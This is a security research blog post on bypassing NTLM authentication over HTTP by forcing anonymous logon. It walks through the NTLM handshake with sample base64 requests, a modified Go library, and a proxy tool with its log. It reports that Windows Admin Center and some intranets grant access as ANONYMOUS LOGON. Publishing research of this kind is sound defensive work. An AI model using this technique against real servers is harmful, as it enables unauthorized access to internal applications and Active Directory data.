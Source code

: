 +++
title = "Bypassing NTLM auth over HTTP"
description = "Exploring the so called NT ANONYMOUS_LOGON user through HTTP endpoints"
tags = [
"howto",
"research",
"ntlm",
"web",
]
date = "2022-03-06 17:00:00"
categories = [
"Research",
"Exploration",
]
keywords = [
"ntlm",
"howto",
"research",
"anonymous",
]
image = "cover.png"

+++

Exploring the so-called NTLM ANONYMOUS_LOGON user through HTTP endpoints.

<!--more-->

# Some background

Through the years NTLM authentication has been used in various protocols as a
convenient way to authenticate on a Windows network :

- SMB usually for file sharing
- RDP
- NNS an "authenticated" TCP stack for .NET applications
- HTTP

The NTLM authentication usually takes place in 3 steps :

```text
CLIENT Sends a negotiation message --------------------> SERVER
CLIENT <-------------------- A challenge is given by the SERVER
CLIENT Sends a challenge response (creds) -------------> SERVER
```

NTLM versions (1/2) and various negotiation flags will determine how the
authentication is _"encrypted"_ between the server and the client.

Btw
[http://davenport.sourceforge.net/ntlm.html]([http://davenport.sourceforge.net/ntlm.html])
is a must-read if you're getting started with this protocol !

# NTLM over HTTP

In this article, we'll turn our attention to its usage over the HTTP protocol.

If you ever accessed your company's intranet after logging in with your
workstation without being asked for credentials, chances are NTLM was used in
the background to authenticate to the remote webserver.

![Home](/ntlm_http/intra_example.png)

NTLM being a connection oriented protocol, HTTP keep-alive is used to keep the
user authenticated through the same connection.

### Negotiation over HTTP

Let's look at how the protocol is actually working over the wire :

The client sends :

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
```

The reply from the server indicates a `401 Unauthorized` but lets us know that
NTLM authentication is available through the `WWW-Authenticate` header :

```http request
HTTP/1.1 401 Unauthorized
Date: Sat, 04 Jun 2022 02:19:43 GMT
WWW-Authenticate: NTLM
Content-Length: 381
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
</body></html>
```

The client will then initiate a negotiation, over the same connection, using the
`Authorization` header with the `NTLM` prefix.

The base64 encoded string is a
[Type 1 message](http://davenport.sourceforge.net/ntlm.html#theType1Message)
letting the server know the client's capabilities :

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
Authorization: NTLM TlRMTVNTUAABAAAAMYCI4AAAAAAoAAAAAAAAACgAAAAAAAAAAAAAAA==
```

### Server challenge over HTTP

The server still replies with a `401 Unauthorized` but this time provides a
[Type 2 message](http://davenport.sourceforge.net/ntlm.html#theType2Message) in
the `WWW-Authenticate` header :

```http request
HTTP/1.1 401 Unauthorized
Date: Sat, 04 Jun 2022 02:19:43 GMT
Server: Apache
WWW-Authenticate: NTLM TlRMTVNTUAACAAAADAAMADgAAAA1gonilM550+1I+dYAAAAAAAAAAJIAkgBEAAAACgA5OAAAAA9EAE8ATQBBAEkATgACAAwARABPAE0AQQBJAE4AAQAMAEEAUABQAFMAMQA1AAQAGABkAG8AbQBhAGkAbgAuAGwAbwBjAGEAbAADACYAQQBQAFAAUwAxADUALgBkAG8AbQBhAGkAbgAuAGwAbwBjAGEAbAAFABgAZABvAG0AYQBpAG4ALgBsAG8AYwBhAGwABwAIAKFXn425d9gBAAAAAA==
Content-Length: 381
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
</body></html>
```

This header provides multiple information about the remote server, including
it's operating system, DNS names, and which Domain it belongs to.

[Internal Information Disclosure using Hidden NTLM Authentication](https://medium.com/swlh/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666)
is a great read an often used by bug-hunters to find and disclose information
about their target.

At this point, all HTTP clients gives you the choice to input a username and
password, however, none of them are mentionning another connection method.

Now let's think about this for a second :

- We know SMB can use NTLM
- We know SMB has an "Anonymous" feature

### Challenge response and auth over HTTP

Reading carefully
[Microsoft documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b38c36ed-2804-4868-a9ff-8dd3182128e4)
about NTLM reveals an interesting bit of information that's usually NOT
implemented by NTLM clients :

![Home](/ntlm_http/MS_NOTE_ANON.png)

Using Golang as a framework, we were able to implement the missing feature in an
already existing NTLM library :

![Home](/ntlm_http/godiff.png)

Kudos to [@Bodgit](https://github.com/bodgit) for creating such a clean library
!

#### Creating a client supporting Anonymous authentication

While modifying a browser for this particular case could be interesting, we
instead decided to write a [proxy](https://github.com/LeakIX/NTLMAnonProxy)
handling the anonymous authentication workflow over HTTP :

```shell
$ ./NTLMAnonProxy-linux-amd64 127.0.0.1 9999
2022/06/04 04:18:06 Starting NTLM HTTP proxy on 127.0.0.1:9999
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Intercepted request
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Proposing NTLM, forcing ANONYMOUS auth
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Received NTLM challenge
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Sent NTLM AUTH
```

#### Checking the results

We know continue our request process over the same connection, and instead of
providing a username and password, we implement the anonymous authentication.

This has the effect of requesting Windows to authenticate as
`ANONYMOUS LOGON/NT AUTHORITY`.

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
Authorization: NTLM TlRMTVNTUAADAAAAAQABAEgAAAAAAAAASQAAAAAAAABIAAAAAAAAAEgAAAAAAAAASAAAABAAEABJAAAANYKJ4AAAAAAAAAAAAEkIUrOKi10Sk8ki/EV6PpA=
```

#### The application

What will happen next depends on the application using NTLM as authentication
source.

If the application is configured to accept any login,
`ANONYMOUS LOGON/NT AUTHORITY` will be considered as valid authentication and
various privileges can be granted to the end-user :

```http request
HTTP/1.1 200 OK
Date: Sat, 04 Jun 2022 02:19:43 GMT
X-UA-Compatible: IE=edge
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: deny
Content-Length: 6901
Content-Type: text/html; charset=ISO-8859-1
```

And in this case we are indeed allowed access to the application (an intranet)
as `ANONYMOUS LOGON/NT AUTHORITY`.

## Affected softwares

Various software are actually affected by this flaw.

One of the surprise we found was the **Windows Admin Center**, a piece of
software used to administer Domains and cluster of the web :

![Home](/ntlm_http/wma-auth1.png)

As it can be seen here, requests to Active Directory can be made, and all kinds
of information can be retrieved through the API :

![Home](/ntlm_http/wma-auth2.png)

While we did notice some **Powershell endpoints** exposed, however Windows UAC
acts as a last protection and requests a confirmation on the local machine.

This flaw we rediscovered was in fact what we believe to be `CVE-2021-27066` has
been fixed with a `403` page after anonymous authentication.

Plenty of servers are still online with a older versions, and pen-testing your
next LAN should definitely include this technique !

## Other protocols

Here we explored HTTP as we couldn't find any client allowing for such
authentication and suspected it would yield results.

[NNS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nns/aaa2adb8-34a0-461c-941e-fca1319c5a50)
is another protocol often used by .NET applications and was in fact the source
of the last
[Veeam critical RCE vulnerability](https://twitter.com/ptswarm/status/1503360681978077185).

We will continue exploring other protocols for the same mis-configuration !
